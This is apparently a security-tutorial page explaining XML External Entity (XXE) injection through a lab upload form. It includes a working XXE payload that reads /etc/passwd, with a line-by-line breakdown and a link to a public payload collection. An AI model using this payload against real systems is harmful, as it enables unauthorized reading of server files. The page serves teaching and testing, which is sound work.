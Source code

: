 # 🥋 XXE - External Entities Injection

XXE, or External Entity Injection, is a type of security vulnerability that occurs when an application processes XML input from untrusted sources without proper validation or sanitization. XML (eXtensible Markup Language) is a widely used format for representing structured data.

In XXE attacks, an attacker tries to exploit the ability of XML to include external entities. An external entity is a reference to an external resource, such as a file or a URL, that is pulled into the XML document during parsing. If an application doesn't properly validate or restrict the entities allowed in the XML input, an attacker may craft malicious XML payloads to include external entities that lead to unintended consequences, such as disclosure of sensitive information, remote code execution, or denial of service.

<figure><img src="../../../../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (203).png" alt=""><figcaption></figcaption></figure>

We have an upload form for XML files, we can see the input wanted for the file:

`<creds><user>username</user><password>password</password></creds>`

So technically a file like this would do:

```
┌──(kali㉿kali)-[~/Desktop/labs/user-content]
└─$ cat xxe-safe.xml 
<?xml version="1.0" encoding="UTF-8"?>
<creds>
    <user>testuser</user>
    <password>testpass</password>
</creds>
```

<figure><img src="../../../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

so it works and the input is added to the database

now a vulnerable version of this would be :

```
┌──(kali㉿kali)-[~/Desktop/labs/user-content]
└─$ cat xxe-exploit.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```

1. `<?xml version="1.0" encoding="UTF-8"?>`: This declaration indicates that the XML document is in version 1.0 and uses UTF-8 encoding.
2. `<!DOCTYPE creds [`: This marks the beginning of the Document Type Definition (DOCTYPE) for the `creds` element. In this section, external entities are declared.
3. `<!ELEMENT creds ANY >`: This declaration states that the `creds` element can contain any type of child element. This is often used in XXE attacks to allow the inclusion of external entities.
4. `<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>`: This declaration creates an entity named `xxe` that points to the `/etc/passwd` file on the file system. The `/etc/passwd` file is commonly used as an example because it contains information about system users.
5. `<creds><user>&xxe;</user><password>pass</password></creds>`: In this part, the payload utilizes the external entity `xxe` in the `user` element. Thus, during XML parsing, the processor will attempt to include the content of the `/etc/passwd` file in place of `&xxe;`.

Often you'll go on payload all things for the XXE's but it's good to see how it's interpreted. Try testing out XXE's when encountering JSON uploads [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
